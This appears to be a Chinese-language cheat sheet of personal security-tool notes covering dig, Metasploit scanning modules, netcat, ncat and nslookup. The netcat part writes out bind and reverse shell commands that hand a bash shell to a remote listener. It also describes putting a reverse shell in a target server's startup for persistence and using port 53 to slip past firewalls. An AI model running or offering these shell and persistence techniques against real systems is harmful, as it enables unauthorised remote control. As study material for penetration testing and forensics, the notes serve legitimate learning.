




# D-dig

## 介绍

## usage

Dig sina.com any 查新浪对应的所有结果。

### 参数选项

\1.   +noall 什么结果都不输出

\2.   +answer 只看answer

\3.   awk筛选,例如输出第五页 dig +noall +answer mail.163.com any |awk ‘{print $5}’



\4.   反向查询 dig –x 220.181.14.164



\5.   查询bind版本信息，搞安全的人会将其过滤，对用户完全没有用，只有黑客感兴趣。



\6.   Dns追踪： dig +trace example.com

# M-MSF：metasploit

**msf信息收集**

Nmap扫描

​     \- db_nmap -sV192.168.1.0/24

Auxiliary 扫描模块

​     -RHOSTS<>RHOST

​      192.168.1.20-192.168.1.30、192.168.1.0/24,192168.11.0/24

​      file:/root/h.txt

​     \- search arp

​       use auxiliary/scanner/discovery/arp_sweep

​      set INTERFACE、RHOSTS、SHOST、SMAC、THREADS; run

   search portscan

​      use auxiliary/scanner/portscan/syn

​    set INTERFACE、PORTS、RHOSTS、THREADS; run


# N-nc：NETCAT 网络相关

## 特点

主要 侦听模式-传输模式

可以作为客户端也可以作为服务端

没加密


## usage

```
nc [-options] hostname port[s] [ports] ...nc -l -p port [options] [hostname] [port]
参数		作用
-d		后台模式
-e 		prog	程序重定向，一旦连接就执行
-g		<网关>	设置路由器跃程通信网关，最多可设置8个
-G		<指向器数目>	设置来源路由指向器，其数值为4的倍数
-h		帮助信息
-i		<延迟秒数>	设置时间间隔，以便传送信息及扫描通信端口
-l		监听模式，用于入站连接，管控传入的数据
-L		连接关闭后，仍然继续监听
-n		直接使用IP地址，而不通过域名服务器
-o		<输出文件>	指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存
-p		<通信端口>	设置本地主机使用的通信端口
-r		随机指定本地与远端主机的通信端口
-s 		<来源地址>	设置本地主机送出数据包的IP地址
-t		使用 TELNET 交互方式
-u		UDP模式
-v		显示指令执行过程	verbose (use twice to be more verbose)
-V		output version information and exit
-x		hexdump incoming and outgoing traffic
-w 		<超时秒数>	设置等待连接的时间
-z		将输入输出关掉，只在扫描通信端口时使用
```

### 0、常用

nc 最常使用的参数：n、v，使用两次 -v 以显示所有信息，之所以使用 n 参数，是因为使用命令的过程中只去 传入 ip，减少了 nc 把域名解析为 ip 的过程，这样可以节省时间提高效率。

### 1、端口扫描

-z 不进行 io 扫描，默认扫描的是 tcp 类型，如果需要扫描 udp，则需要使用一个新参数 u。

```shell
# 默认 tcp
$ nc -nvz ip start-end

# udp 扫描
$ nc -nvzu ip start-end
```

### 2、Telnet/Banner

telnet 使用率大不如以前了，基本被 ssh 取代了，最大的弊端在于其明文传输。nc 也是明文方式传输的数据，所以后续需要使用 nmap 下 的 ncat 工具来结合一下，弥补其不足。nc 在这里可以获取服务器的 banner 信息。

```shell
# 扫描 163 的 smtp
nc -nv 123.126.96.214 110
```

### 3、传输信息

#### 传输文本信息

a. 电子取证的时候可以用。当机器被攻击后，为了不破坏现场，需要提出大量的信息和文件出来做 分析，这时候可以用 nc 的这个机制，例如，需要一个命令的输出信息，首先在一台机器上监听一个端口，随后在被攻击的机器上执行相 关的命令，然后以管道给 nc，指定另一台的地址和端口，这样输出结果就会到另一端

```shell
# 客户端
$ nc -lp port

# 服务端
$ nc -nv ip port
```

如果输出内容过多，可以输出到文件中，| ：前面的输出作为后面的输入

```shell
# 输出到文件中
# 接收方
$ nc -lp port > demo.txt

# 发送方
$ ps -aux | nc -nv ip port
```

#### 传输文件和目录

```shell
# 正反向同理
# 传输图片
$ nc -lp port > receive.jpg

# 发送
$ nc -nv ip port < send.jpg	
```

使用 tar

```shell
# - 是压缩后的文件名，不用保存到本地，所以不用指定压缩后的文件名
$ tar cvf - send.png | nc -lp 1000
# 直接接受后解压
$ nc -nv 192.168.33.160 1000 | tar xvf -
```

#### 加密传输文件

加密传输文件需要使用 mcrypt 库

#### 流媒体传输

流媒体传输需要 mplayer


### 4、远程克隆硬盘

将原硬盘的每一个位都进行克隆

在远程电子取证时可以用，使用方法需要借助 dd 命令，首先通过 nc 监听一个端口，然后通过 dd 指定要克隆的分 区，dd 的 of 参数相当于一个复制功能，然后再另一台机器通过 nc 连接此端口，dd 的 if 参数相当于粘贴的命令。

```shell
$ nc ‐lp 6666 | dd of=/dev/sda
$ dd if=/dev/sda | nc ‐nv 192.168.228.128 6666 ‐q 1
```

### 5、远程控制/正反向

正向 shell

```shell
# kali
$ nc -lvp 7777 -e /bin/bash
$ nc -lp port -c bash

# mac
$ nc -nc ip port
```

通常情况下，一般的服务器都会有防火墙，很少会允许其他外在的机器来连接自己的某一个端口，只有某些指定端口可能会允许访问，例 如 web 服务的 80 端口。

这时正向的 shell 就不不起作用了，而防火墙一般都会禁止外在机器来连接自己机器的其他端口，但自己的机器 访问外面的端口一般不会做限制，这时候就可以使用反向 shell，也就是攻击者指定一个端口和 bash，让目标服务器来连接自己。

这样就可以写一个脚本放到目标服务器的开机启动中，只要目标服务器运行就会连接自己。当然，有些管理员安全意思比较好的话，也会限制自 己的服务器访问外在的一些端口，这种情况很少见，但也有，这时可以指定常用的端口，例如服务器要使用 dns 服务的 53 端口，这时候 自己就可以监听 53 让目标服务器来连接自己。

```shell
# 目标服务器
$ nc -nv ip port -c bash

# 客户端
$ nc -lp port
```

总结：正向 shell 是服务器开启一个端口指定 shell 让别人来连。但出于防火墙原因，一般都连不上。这时需要用反向 shell，让目标服务器 指定 shell 后来连接自己。

### 6、ncat 加密

nc 也有不足之处，首先就是明文传输，可能会被嗅探。其次对于反向 shell，如果其他人通过网络扫描发现了这个端口，也就意味着任何 人都可以去监听这个端口进行连接，缺乏身份验证功能。 ncat 则弥补了这些缺点，ncat 不是 linux 系统自带的命令，而是 nmap 中的。ncat 中很多参数和 nc 一样，其中可以通过 --alow 参数来指定 允许连接的机器，通过 --ssl 进行数据的加密。

```shell
# 服务器
$ ncat -c bash --allow client_ip -vnl port --ssl

# 客户端
$ ncat -nv server_ip port --ssl
```

每次连接的 fingerprint 都不一样


# N-nslookup



 

 

dns缓存服务器

dns缓存服务器地址

set type=a 设置类型，查询a记录

set type=mx 查看mx记录

server [IP地址]使用指定的服务器

由于dns采用智能化，会选择比较近的dns服务器，不会出现跨国访问。

nslookup sina.com any 8.8.8.8 使用8.8.8.8服务器，查询sina.com的所有dns消息。

# S-sqlmap SQL Injection

# Z-guidepost-用来定位文件的末端

